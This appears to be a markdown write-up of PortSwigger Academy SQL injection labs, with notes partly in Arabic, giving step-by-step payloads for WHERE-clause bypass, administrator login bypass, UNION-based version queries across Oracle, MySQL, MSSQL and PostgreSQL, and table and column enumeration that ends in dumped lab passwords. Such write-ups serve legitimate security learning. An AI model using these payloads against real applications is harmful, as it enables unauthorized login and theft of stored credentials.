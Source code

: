 # Sqli 

<details>
  <summary>Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data</summary>

> ### This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

---
 
* ```url
  /filter?category=Pets
  ```
  * ```url
    /filter?category=Pets' or 1=1 --
    ```

  
</details>







<details>
  <summary>Lab: SQL injection vulnerability allowing login bypass</summary>

> ###  This lab contains a SQL injection vulnerability in the login function.
* > To solve the lab, perform a SQL injection attack that logs in to the application as the ``administrator`` user.

---


```url
csrf=Wf2ku02yY3tefRdA4rFJfn8d1Z48oOeq&username=user&password=pass
```
put username = ``administrator" --`` and write any passowrd it will be ignored anyway and if ``'`` not work try ``"``

```url
csrf=Wf2ku02yY3tefRdA4rFJfn8d1Z48oOeq&username=administrator' --&password=pass
```

  
</details>




<details>
  <summary>Lab: SQL injection attack, querying the database type and version on Oracle</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
* > To solve the lab, display the database version string. 

* <details>
     <summary>Hint</summary>

  On Oracle databases, every ``SELECT`` statement must specify a table to select ``FROM``. If your ``UNION SELECT`` attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.
  
  There is a built-in table on Oracle called ``dual`` which you can use for this purpose. For example: ``UNION SELECT 'abc' FROM dual``   

  </details>


⚠️⚠️
<details>
  <summary>aobut union injection</summary>

✅ أولاً: "تتأكد إن أنواع البيانات في الأعمدة المتحده (unioned) متوافقة" يعني إيه؟
لما تستخدم ``UNION``، انت بتدمج نتيجتين مع بعض، فلازم الأعمدة اللي في الاستعلام الأول والتاني يكونوا نفس العدد ونفس نوع البيانات.

مثال توضيحي:
لو الاستعلام الأصلي بيرجع:

```sql
id (رقم), name (نص), email (نص)
```

فأنت لازم تكتب: 

```sql
UNION SELECT 1, 'admin', 'admin@example.com'
```
  
</details>
⚠️⚠️

----


```
/filter?category=Gifts
```
first check number of coulmns :

* ```url
  /filter?category=Gifts'union select null FROM dual--
  ```

* ```url
  /filter?category=Gifts'union select null,null FROM dual--
  ```

for check type of coulmns :

* ```url
  /filter?category=Gifts'union select 'a','a' FROM dual--
  ```

now try to know database version :

* **``Oracle :``**
   * ``SELECT banner FROM v$version``
   * ``SELECT version FROM``
   * ``v$instance``

* **``Microsoft :``**
   * ``SELECT @@version`` 

* **``PostgreSQL :``**
   * ``SELECT version()``

* **``MySQL :``**
   * ``SELECT @@version`` 



* ```url
  /filter?category=Gifts'union SELECT banner,NULL FROM v$version--
  ```



  
</details>








<details>
  <summary>Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
> To solve the lab, display the database version string. 


---

```url
'+UNION+SELECT+'abc','def'#
```

* ```
  '+UNION+SELECT+@@version,+NULL#
  ```

  
</details>






<details>
  <summary>Lab: SQL injection attack, listing the database contents on non-Oracle databases</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> ### The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> To solve the lab, log in as the ``administrator`` user. 


---

```
/filter?category=Gifts' union select NULL,NULL--
```

* <details>
     <summary>⚠️list tables in database⚠️</summary>




  
  ## 🔍 1. Determine the Number of Columns
  
  ```sql
  ' ORDER BY 1--
  ' ORDER BY 2--
  ...
  ' ORDER BY N--
  ```
  
  أوقف عند أول رقم يعطيك خطأ → عدد الأعمدة هو الرقم السابق.
  
  أو باستخدام `UNION SELECT NULL`:
  
  ```sql
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL--
  ```
  
  حتى لا يظهر خطأ.
  
  ---
  
  ## 🧠 2. Find Reflectable Columns (أي عمود يظهر على الصفحة)
  
  ```sql
  ' UNION SELECT 'a', NULL--
  ' UNION SELECT NULL, 'a'--
  ```
  
  غيّر مكان `'a'` لترى أين يظهر على الصفحة.
  
  ---
  
  
  
  ## 📋 4. List Tables in the Database
  
  ### 🐬 MySQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()--
  ```
  
  ### 🐘 PostgreSQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema='public'--
  ```
  
  ### 🪟 MSSQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables--
  -- OR --
  ' UNION SELECT name, NULL FROM sys.tables--
  ```
  
  ### 🟠 Oracle
  
  ```sql
  ' UNION SELECT table_name, NULL FROM all_tables--
  ```
  
  ---
  
  ## 📑 5. List Columns in a Table
  
  ### 🐬 MySQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ### 🐘 PostgreSQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ### 🪟 MSSQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ---
  
  ## 🧪 Example (MySQL)
  
  - Suppose we know the number of columns is 2, and the first column reflects to the page:
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()--
  ```
  

  
 

     
 </details>


* ```sql
  '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
  ```

![image](https://github.com/user-attachments/assets/5dca3238-d8de-478c-9975-a5e940982015)

```
users_qtmswl
```

found tables 

* ```sql
  '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_qtmswl'--
  ```

found colums:

```
username_xwttla
email
password_ztcwwk
```

* ```sql
  ' UNION+SELECT username_xwttla, password_ztcwwk FROM users_qtmswl--
  ```

![image](https://github.com/user-attachments/assets/c759f3d6-5a1b-4884-885e-9b4ac82fa789)

```
administrator : 3cwvdutv09z9slmekkwm
```
  
</details>






<details>
  <summary>Lab: SQL injection attack, listing the database contents on Oracle</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> ### The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> To solve the lab, log in as the administrator user. 

---


```
'+UNION+SELECT+'abc','def'+FROM+dual--
```

```sql
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

* ```
  USERS_PURPGR
  ```

```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_PURPGR'--
```

* ```
  PASSWORD_BGNVEO
  USERNAME_WWJQEC
  ```

```
'+UNION+SELECT+USERNAME_WWJQEC,+ PASSWORD_BGNVEO+FROM+USERS_PURPGR--
```

* ```
  administrator
	io37vj2yyj6q36piu2uo
  carlos
	gthqs6kajajbsnpy9xc1
  wiener
	46bp8uni00wnytsv0yob
  ```



  
</details>



































## [Portsqigger cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)



































